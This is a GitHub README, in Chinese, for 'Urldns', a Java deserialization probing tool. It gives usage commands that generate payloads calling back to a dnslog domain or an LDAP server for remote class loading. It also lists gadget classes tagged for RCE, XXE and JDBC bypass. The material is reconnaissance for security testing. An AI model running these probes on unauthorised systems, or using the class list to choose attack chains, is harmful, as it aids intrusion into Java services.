 # Urldns
此工具仅能dnslog漏洞测试，不可用于非法用途，有问题请联系sonomon@126.com  

有三种模式，base64，file，ldap，file默认当前目录生成文件1.ser，ldap默认端口1389  
请输入: java -jar Urldns.jar base64 all dnslog.com  
或者   : java -jar Urldns.jar file all dnslog.com  
或者   : java -jar Urldns.jar ldap all dnslog.com  

目前支持的内置探测类如下，使用all将全部探测，可以将all替换为如下简写进行单独探测，也可以填写自定义的类进行探测。如果想同时探测多个类，用|分割。
```
CommonsCollections13567
CommonsCollections24
CommonsBeanutils2
C3P0
AspectJWeaver
bsh
Groovy
Becl
Jdk7u21
JRE8u20
ROME
Fastjson
Jackson
SpringAOP
winlinux
```

使用ldap模式的all将额外探测如下  
```
//BeanFactory,配合无参构造和单String方法RCE
org.apache.naming.factory.BeanFactory
javax.el.ELProcessor
groovy.lang.GroovyShell
groovy.lang.GroovyClassLoader
org.yaml.snakeyaml.Yaml
com.thoughtworks.xstream.XStream
org.xmlpull.v1.XmlPullParserException
org.xmlpull.mxp1.MXParser
org.mvel2.sh.ShellSession
com.sun.glass.utils.NativeLibLoader
//XXE和文件写入
org.apache.catalina.UserDatabase
org.apache.catalina.users.MemoryUserDatabaseFactory
//jdbc bypass
org.h2.Driver
org.postgresql.Driver
com.mysql.jdbc.Driver
com.mysql.cj.jdbc.Driver
com.mysql.fabric.jdbc.FabricMySQLDriver
oracle.jdbc.driver.OracleDriver
org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory
org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory
org.apache.commons.dbcp.BasicDataSourceFactory
org.apache.commons.pool.KeyedObjectPoolFactory
org.apache.commons.dbcp2.BasicDataSourceFactory
org.apache.commons.pool2.PooledObjectFactory
org.apache.tomcat.jdbc.pool.DataSourceFactory
org.apache.juli.logging.LogFactory
com.alibaba.druid.pool.DruidDataSourceFactory
//WebSphere加载jar RCE
com.ibm.ws.client.applicationclient.ClientJ2CCFFactory
com.ibm.ws.webservices.engine.client.ServiceFactory
```

示例: java -jar Urldns.jar base64 "CommonsBeanutils2|C3P0|ognl.OgnlContext" dnslog.com

常用: java -jar Urldns.jar base64 all dnslog.com

效果如下图

![图片](https://github.com/kezibei/Urldns/assets/83849145/5ee4ceb6-02d5-472e-8867-01c20a2c7049)


ldap模式支持ldap://2.2.2.2:1389/jndi，将不再反序列化而是远程加载class，以探测是否出网
